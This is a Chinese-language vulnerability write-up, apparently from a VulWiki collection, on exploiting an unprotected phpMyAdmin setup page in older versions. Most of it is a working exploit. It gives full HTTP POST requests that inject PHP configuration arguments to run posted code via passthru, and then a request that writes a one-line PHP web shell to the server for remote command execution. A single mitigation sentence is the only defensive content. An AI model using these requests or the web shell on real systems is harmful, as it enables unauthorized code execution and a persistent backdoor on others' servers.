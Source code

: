 Phpmyadmin setup页面配置不当的利用姿势整合
==========================================

一、漏洞简介
------------

其安装在Web服务器上的接口界面,主要用于使用php来管理安装服务器上的后台数据库(MySQL数据库),但如果采用默认安装,敏感路径未做出处理,便会存在安全漏洞,最突出的是其setup脚本中存在着服务器端请求伪造漏洞。远程攻击者可利用该漏洞执行未授权的操作。

二、漏洞影响
------------

phpMyAdmin
4.0.10.19之前的版本，4.4.15.10之前的4.4.x版本，4.6.6之前的4.6.x版本。

三、复现过程
------------

如果用户未对phpmyadmin目录下的setup文件进行安全处理,那普通用户可以在不进行身份认证的情况下,便可以配置服务器信息(防范措施:不允许其他用户从公网访问phpMyAdmin目录或者禁止访问setup文件)![1.png](/Users/aresx/Documents/VulWiki/.resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId24.png)我们可以通过构造参数执行配置指令,并利用php伪协议提交post内容执行

    POST http://www.0-sec.org/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1      
     #问号及其后面的内容用于修改修改php的主配置文件php.ini，从而可以执行下面插入的php代码

    Host: www.0-sec.org 

    Content-Length: 35

    <?php 

    passthru('id');        
     #passthru() 函数用于调用系统命令，并把命令的运行结果原样地直接输出到标准输出设备上。
     #也可以将id命令换成其他Linux命令去获取web系统的数据,目前使用的是普通用户www-date,权限有限

    die();                
     #die() 函数输出一条消息，并退出当前脚本,此处使用为了避免获取多余无用的信息

    ?>

可以使用Burpsuite的Repeater工具该发送post请求,获取目标的信息![3.png](/Users/aresx/Documents/VulWiki/.resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId25.png)由刚刚的id命令得知目前的用户为www-data,由查看账户信息得知其主目录为/var/www,那么便可以向其主目录写入木马,以实现远程控制的效果![4.png](/Users/aresx/Documents/VulWiki/.resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId26.png)![5.png](/Users/aresx/Documents/VulWiki/.resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId27.png)命令如下

    POST http://www.0-sec.org/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 102

    <?php 

    passthru('echo "<?php \$cmd = \$_GET["cmd"];system(\$cmd);?>" >/var/www/2.php');
    #该木马表示将GET方式获取的指令赋值于cmd命令,并使用system()函数运行cmd变量存储的命令
    #反斜杠作用:避免服务器将上传内容过滤,输入命令无效
    die();

    ?>

通过在浏览器访问该木马,便可获取目标系统的shell![6.png](/Users/aresx/Documents/VulWiki/.resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId28.png)

参考链接
--------

> https://louisnie.github.io/2018/10/23/%E6%89%8B%E5%8A%A8%E6%8C%96%E6%8E%98%E4%B9%8B%E9%BB%98%E8%AE%A4%E5%AE%89%E8%A3%85%E6%BC%8F%E6%B4%9E-1/
